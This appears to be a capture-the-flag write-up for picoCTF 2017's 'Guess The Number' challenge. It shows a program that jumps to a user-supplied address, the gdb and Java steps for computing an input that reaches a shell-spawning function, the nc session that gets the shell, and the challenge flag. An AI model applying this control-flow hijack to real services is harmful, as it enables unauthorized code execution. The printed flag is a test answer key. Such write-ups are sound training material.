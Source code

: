 # Guess The Number
```
Just a simple number-guessing game. How hard could it be? Binary Source. Connect on shell2017.picoctf.com:40780.
HINTS
What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...
```

Taking a look at the main function, it calls the funciton at an address of the input value shifted 4 bits right. 

```C
int main(int argc, char **argv) {
    uintptr_t val;
    ...

    printf("Enter your number: ");
    scanf("%32s", buf);
    val = strtol(buf, NULL, 10);

    printf("You entered %d. Let's see if it was right...\n", val);

    val >>= 4;
    ((void (*)(void))val)();
}
```

In order to get a shell we need to call the win function.

```C
void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}
```

Let's find the address of the win function using gdb.

```
$ gdb guess_num -q
Reading symbols from guess_num...(no debugging symbols found)...done.
(gdb) p win
$1 = {<text variable, no debug info>} 0x804852b <win>
(gdb)
```

The input value is input as a sign integer; when shifted 4 bits right it needs to equal 0x804852b. Using a languaged with easily accessibly bit shifts and signed integer types we can calculated 0x804852b as a signed integer shifted 4 bits to the left. We used the following java snippet.

```Java
public class Main {
    public static void main(String[] args) {
        System.out.println(0x804852b << 4);
    }
}
```

After compiling and running the program we get our result.

```
$ javac Main.java
$ java Main
-2142743888
$
```

When input, this value will cause the program to call the function at the memory address for the win function, giving us a shell. Then, we cat the flag. Here we pipe the output of our java program to the netcat application running on their server.

```
$ (java Main; cat) | nc shell2017.picoctf.com 40780
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: You entered -2142743888. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ cat flag.txt
e08d404edccb7d8259f1fe02acd34894
$

```





